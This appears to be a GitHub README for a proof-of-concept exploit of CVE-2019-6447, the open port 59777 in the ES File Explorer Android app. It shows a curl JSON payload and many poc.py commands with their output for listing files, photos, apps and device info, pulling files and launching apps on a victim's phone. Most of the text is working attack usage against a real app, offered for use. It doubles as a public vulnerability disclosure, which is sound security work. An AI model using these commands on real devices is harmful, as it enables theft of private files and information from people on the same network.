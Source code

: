 # ES File Explorer Open Port Vulnerability - CVE-2019-6447
As per their Google Play description:
> ES File Explorer (File Manager) is a full-featured file (Images, Music, Movies, Documents, app) manager for both local and networked use! With over 500 million users worldwide, ES File Explorer (File Manager) helps manage your android phone and files efficiently and effectively and share files without data cost.

Everytime a user is launching the app, a HTTP server is started. This server is opening locally the port 59777:
```console
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop
```

On this port, an attacker can send a JSON payload to the target
```console
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.8:59777
```

These commands allow an attacker **connected on the same local network to the victim**, to obtain a lot of juicy information (device info, app installed, ...) about the victim's phone, **remotely get a file** from the victim's phone and **remotely launch an app** on the victim's phone.

## Affected Versions
4.1.9.7.4 and below

## POC Features
With the following Proof Of Concept (POC), you can:
- List all the files in the sdcard in the victim device
- List all the pictures in the victim device
- List all the videos in the victim device
- List all the audio files in the victim device
- List all the apps installed in the victim device
- List all the system apps installed in the victim device
- List all the phone apps installed in the victim device
- List all the apk files stored in the sdcard of the victim device
- List all the apps installed in the victim device
- Get device info of the victim device
- Pull a file from the victim device
- Launch an app of your choice
- Get the icon of an app of your choice

## Demo
[![Demo](http://img.youtube.com/vi/z6hfgnPNBRE/0.jpg)](http://www.youtube.com/watch?v=z6hfgnPNBRE)

## How To
```console
$ python poc.py -g /sdcard/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg

$ python poc.py --cmd appPull --pkg com.tencent.mm

$ python poc.py --cmd getAppThumbnail --pkg com.tencent.mm

$ python poc.py --cmd appLaunch --pkg com.tencent.mm
{"result":"0"}

$ python poc.py --cmd getDeviceInfo
{"name":"Nexus 6P", "ftpRoot":"/sdcard", "ftpPort":"3721"}

$ python poc.py --cmd listAppsAll
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"},
{"packageName":"com.android.cts.priv.ctsshim", "label":"com.android.cts.priv.ctsshim", "version":"8.1.0-4396705", "versionCode":"27", "location":"/system/priv-app/CtsShimPrivPrebuilt/CtsShimPrivPrebuilt.apk", "size":"22744", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsPhone
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsSystem
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listApps
{"packageName":"com.google.android.youtube", "label":"YouTube", "version":"13.50.52", "versionCode":"1350523400", "location":"/data/app/com.google.android.youtube-hg9X1FaylPbUXO1SaiFtkg==/base.apk", "size":"36860368", "status":"com.google.android.apps.youtube.app.application.backup.YouTubeBackupAgent", "mTime":"1545337705957"}

$ python poc.py --cmd listAppsSdcard

$ python poc.py --cmd listAudios
{"name":"hangouts_incoming_call.ogg", "time":"10/17/18 11:33:16 PM", "location":"/storage/emulated/0/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg", "duration":5000, "size":"74.63 KB (76,425 Bytes)", }

$ python poc.py --cmd listPics
{"name":"mmexport1546422097497.jpg", "time":"1/2/19 10:41:37 AM", "location":"/storage/emulated/0/tencent/MicroMsg/WeChat/mmexport1546422097497.jpg", "size":"38.80 KB (39,734 Bytes)", }

$ python poc.py --cmd listVideos

$ python poc.py --cmd listFiles

$ python poc.py list

######################
# Available Commands #
######################

listFiles: List all the files
listPics: List all the pictures
listVideos: List all the videos
listAudios: List all the audio files
listApps: List all the apps installed
listAppsSystem: List all the system apps
listAppsPhone: List all the phone apps
listAppsSdcard: List all the apk files in the sdcard
listAppsAll: List all the apps installed (system apps included)
getDeviceInfo: Get device info
appPull: Pull an app from the device. Package name parameter is needed
appLaunch: Launch an app. Package name parameter is needed
getAppThumbnail: Get the icon of an app. Package name parameter is needed
```

## Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

## Credits
Following a tip, the investigation and the POC has been made with ❤️ by @fs0c131y
